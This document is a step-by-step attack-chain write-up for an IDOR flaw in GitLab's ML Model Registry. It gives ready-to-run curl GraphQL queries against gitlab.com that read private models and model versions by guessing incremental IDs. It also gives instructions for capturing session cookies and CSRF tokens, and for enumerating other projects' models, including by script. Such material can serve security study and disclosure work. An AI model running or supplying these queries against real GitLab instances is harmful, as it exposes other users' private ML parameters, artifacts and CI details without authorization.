

# IDOR Exploitation in GitLab ML Model Registry to Access Private Models

Multi-stage attack chain demonstrating the exploitation of an Insecure Direct Object Reference (IDOR) vulnerability in GitLab's Machine Learning Model Registry. Attackers with any authenticated GitLab account can access private ML models from other projects by manipulating guessable incremental model IDs in GraphQL queries, leading to exposure of sensitive ML experiment data, parameters, metadata, artifacts, and CI job details across all GitLab tiers (Free, Premium, Ultimate) and deployments (GitLab.com, Self-managed, Dedicated).

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser with developer tools or proxy like Burp Suite for interception
- cURL or similar HTTP client for GraphQL queries

### Target Environment

- GitLab instance (GitLab.com or self-managed)
- GraphQL API endpoint (/api/graphql)
- Machine Learning Model Registry enabled

### Initial Access Requirements

- Valid GitLab user account (any tier)
- Network access to GitLab instance
- No elevated privileges needed; exploits authenticated session

## Detailed Attack Procedures

### Step 1: Login to GitLab

procedure: [[procedures/Login-to-GitLab-and-Extract-Tokens]]

**Objective**: Authenticate to GitLab to obtain a valid session for subsequent API requests.

**Instructions**: Navigate to the GitLab login page and sign in with a valid user account. No special commands are needed; use the web interface.

**Expected Output**: Successful login redirect to the dashboard, with session cookies set in the browser.

**Success Indicators**:
- Dashboard access granted
- Session cookies (e.g., _gitlab_session) visible in browser dev tools

### Step 2: Extract Authentication Tokens

procedure: [[procedures/Login-to-GitLab-and-Extract-Tokens]]

**Objective**: Intercept GraphQL API responses to capture session cookies and CSRF tokens required for authenticated requests.

**Instructions**: Perform any action that triggers a GraphQL request (e.g., navigate to a project or ML section). Use browser dev tools or a proxy to capture the response headers from /api/graphql.

**Expected Output**: Captured Cookie header (e.g., _gitlab_session=...) and X-Csrf-Token value.

**Success Indicators**:
- Valid Cookie and X-Csrf-Token extracted
- Tokens can be used in manual requests without 401 errors

### Step 3: Query Specific Model Details

procedure: [[procedures/Query-ML-Model-Details-via-GraphQL-IDOR]]

**Objective**: Send a GraphQL query to access details of a target ML model using a known or guessed ID, bypassing authorization.

**Instructions**: Use [[commands/gitlab-graphql-get-model]] to send the POST request to /api/graphql with the model's global ID (e.g., gid://gitlab/Ml::Model/1000401). Replace placeholders for Cookie and X-Csrf-Token.

```bash
curl -X POST 'https://gitlab.com/api/graphql' \
  -H 'Cookie: _gitlab_session=<your-session-cookie>' \
  -H 'X-Csrf-Token: <your-csrf-token>' \
  -H 'Content-Type: application/json' \
  -d '{"operationName":"getModel","variables":{"id":"gid://gitlab/Ml::Model/1000401"},"query":"query getModel($id: MlModelID!) { mlModel(id: $id) { id description name versionCount candidateCount latestVersion { id version packageId description candidate { id name iid eid status params { nodes { id name value __typename } __typename } metadata { nodes { id name value __typename } __typename } metrics { nodes { id name value step __typename } __typename } ciJob { id webPath name pipeline { id mergeRequest { id iid title webUrl __typename } user { id avatarUrl webUrl username name __typename } __typename } __typename } _links { showPath artifactPath __typename } __typename } _links { showPath __typename } __typename } __typename } }"}'
```

**Expected Output**: JSON response with model details, including private data like description, name, versions, params, metadata, metrics, and artifact paths.

**Success Indicators**:
- Response contains unauthorized model data (e.g., from another project)
- No authorization error (200 OK)

### Step 4: Enumerate Additional Models

procedure: [[procedures/Enumerate-Models-by-ID-Manipulation]]

**Objective**: Systematically access other models by decrementing or guessing incremental IDs to discover private models across projects.

**Instructions**: From the model ID obtained (e.g., 1000401), modify the 'id' variable in the GraphQL query (e.g., to 1000400, 999999, etc.) and repeat the query using [[commands/gitlab-graphql-get-model]]. Script this for automation if needed.

**Expected Output**: Multiple JSON responses revealing various private models' details.

**Success Indicators**:
- Access to models not owned by the authenticated user
- Enumeration of 10+ models without rate limiting

### Step 5: Access Model Versions

procedure: [[procedures/Query-ML-Model-Version-Details-via-GraphQL-IDOR]]

**Objective**: Use IDs from model queries to access specific versions, extracting deeper sensitive data like parameters and artifacts.

**Instructions**: Extract modelVersionId from the previous response (e.g., gid://gitlab/Ml::ModelVersion/1000535) and use [[commands/gitlab-graphql-get-model-version]] with the parent modelId.

```bash
curl -X POST 'https://gitlab.com/api/graphql' \
  -H 'Cookie: _gitlab_session=<your-session-cookie>' \
  -H 'X-Csrf-Token: <your-csrf-token>' \
  -H 'Content-Type: application/json' \
  -d '{"operationName":"getModelVersion","variables":{"modelId":"gid://gitlab/Ml::Model/1000401","modelVersionId":"gid://gitlab/Ml::ModelVersion/1000535"},"query":"query getModelVersion($modelId: MlModelID!, $modelVersionId: MlModelVersionID!) { mlModel(id: $modelId) { id name version(modelVersionId: $modelVersionId) { id version packageId description candidate { id name iid eid status params { nodes { id name value __typename } __typename } metadata { nodes { id name value __typename } __typename } metrics { nodes { id name value step __typename } __typename } ciJob { id webPath name pipeline { id mergeRequest { id iid title webUrl __typename } user { id avatarUrl webUrl username name __typename } __typename } __typename } _links { showPath artifactPath __typename } __typename } _links { showPath __typename } __typename } __typename } }"}'
```

**Expected Output**: JSON with version-specific data, including params, metadata, metrics, CI job paths, and artifact links.

**Success Indicators**:
- Exposure of private version artifacts and experiment params
- Downloadable links to sensitive ML data

## Attack Chain Summary

### Key Achievements

1. Unauthorized access to private ML models using any authenticated GitLab account
2. Enumeration of incremental IDs to discover models across all projects
3. Extraction of sensitive ML artifacts, parameters, and CI details

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Data from Information Repositories]] Data from Information Repositories
- [[Valid Accounts]] Valid Accounts

### MITRE ATT&CK Tactics

- [[Discovery]] Discovery
- [[Collection]] Collection

---
*Last updated: 2024-10-01T00:00:00Z*
